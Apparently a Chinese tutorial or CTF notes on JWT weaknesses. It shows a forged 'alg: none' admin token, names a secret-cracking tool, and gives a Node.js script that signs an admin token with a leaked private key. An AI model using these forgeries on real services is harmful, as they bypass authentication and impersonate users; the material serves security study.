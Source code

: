 我们可以进jwt官网看一下`jwt.io`

![image-20220926194846145](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/202209261948195.png)

### JWT漏洞

##### 空加密算法

jwt支持空加密算法，可以在header中指定alg为none，这样的话，只要把signature设置为空，即不添加signature字段提交到服务器，任何token都可以通过服务器验证

但是我们会发现官网是没法生成空加密的，但是我们知道它的signature是base64，所以我们直接手工生成

```
{
  "alg": "None",
  "typ": "JWT"
}
{
  "iss": "admin",
  "iat": 1664193697,
  "exp": 1664200897,
  "nbf": 1664193697,
  "sub": "admin",
  "jti": "fa2fb0a80953bd65a5dfe2afec06048e"
}
在两段编码中间用.隔开
```

![image-20220926200852044](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/202209262008821.png)

```
ewogICJhbGciOiAiTm9uZSIsCiAgInR5cCI6ICJKV1QiCn0K.ewogICJpc3MiOiAiYWRtaW4iLAogICJpYXQiOiAxNjY0MTkzNjk3LAogICJleHAiOiAxNjY0MjAwODk3LAogICJuYmYiOiAxNjY0MTkzNjk3LAogICJzdWIiOiAiYWRtaW4iLAogICJqdGkiOiAiZmEyZmIwYTgwOTUzYmQ2NWE1ZGZlMmFmZWMwNjA0OGUiCn0=.
```

(header+”.”+payload+”.”, 去掉了’.’signature字段)

空加密算法是为了调试方便，在生产环境中开启空加密模式，缺少签名保护，攻击者只要把alg字段改成none，就可以在payload中构造身份，伪造用户身份。

##### 密钥爆破

我们可以使用`c-jwt-cracker-master`进行jwt密钥爆破

##### 私钥泄露攻击

这里访问`/private.key`就能任意文件下载私钥，但是我们尝试在官网是无法生成的，但是我们可以自己写脚本生成

这里就需要在本地安装node，然后`npm install jsonwebtoken`

```
const jwt = require("jsonwebtoken");

var fs = require("fs");


var privateKey = fs.readFileSync("private.key");
var token =jwt.sign({user:'admin' },privateKey,{algorithm:'RS256'});

console.log(token);
```
